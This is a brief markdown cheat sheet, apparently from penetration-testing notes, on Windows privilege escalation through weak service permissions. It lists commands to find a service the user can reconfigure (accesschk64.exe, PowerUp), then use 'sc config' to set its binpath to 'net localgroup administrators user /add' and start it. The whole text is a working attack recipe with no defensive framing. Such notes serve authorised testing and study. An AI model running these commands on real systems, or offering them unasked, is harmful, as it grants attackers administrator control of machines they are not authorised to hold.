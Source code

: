 # Binary Path Escalation

* Run accesschk64.exe -wuvc daclsvc or powerup.ps1
* See if  “User-PC\User” has the “SERVICE_CHANGE_CONFIG”
*  sc config [SERVICE] binpath= "net localgroup administrators user /add"
*  sc start [SERVICE]
